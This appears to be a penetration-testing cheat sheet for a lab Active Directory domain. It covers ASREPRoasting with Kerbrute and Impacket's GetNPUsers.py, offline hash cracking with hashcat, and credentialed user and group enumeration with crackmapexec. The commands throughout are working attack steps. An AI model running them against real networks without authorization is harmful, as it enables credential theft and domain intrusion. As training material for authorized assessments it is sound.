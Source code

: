 When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.

### Retrieving the AS-REP Using Kerbrute
```bash
$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
With a list of valid users, we can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required. The tool will retrieve the AS-REP in Hashcat format for offline cracking for any found. We can also feed a wordlist such as jsmith.txt into the tool, it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-authentication, then it can be a nice way to obtain a foothold or further our access, depending on where we are in the course of our assessment. Even if we are unable to crack the AS-REP using Hashcat it is still good to report this as a finding to clients (just lower risk if we cannot crack the password) so they can assess whether or not the account requires this setting.

### Hunting for Users with Kerberoast Pre-auth Not Required
```bash
$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 

# check ASREPRoast for all domain users (credentials required)
$ python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
$ python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

We have now covered a few ways that we can perform an ASREPRoasting attack from both Windows and Linux hosts and witnessed how we do not need to be on a domain-joined host to a) enumerate accounts that do not require Kerberos pre-authentication and b) perform this attack and obtain an AS-REP to crack offline to either gain a foothold in the domain or further our access.

## Cracking the Hash Offline with Hashcat
```bash
$ hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

* * *

# Got Domain Account with valid credentials (Ticket, Hash or Password) 
## Credentialed Enumeration 
```bash
# Domain User Enumeration
$ sudo crackmapexec smb <DC_IP> -u <USERNAME> -p <PASSWORD> --users
$ awk -F 'INLANEFREIGHT.LOCAL\\\\' '{print $2}' crack.txt | awk '{print $1}' > new_crack.txt

$ crackmapexec smb <DC_IP> -u <USERNAME> -p <PASSWORD> --users >> user.txt
$ awk '{ print $5 }' users.txt | cut -d'\' -f2 >> validusers.txt

$ GetADUsers.py -all -dc-ip <dc_ip> <DOMAIN>/<USERNAME> 

# Domain Group Enumeration
$ sudo crackmapexec smb <DC_IP> -u <USERNAME> -p <PASSWORD> --groups


# Logged On Users
"""
local admin because (Pwn3d!)
"""
```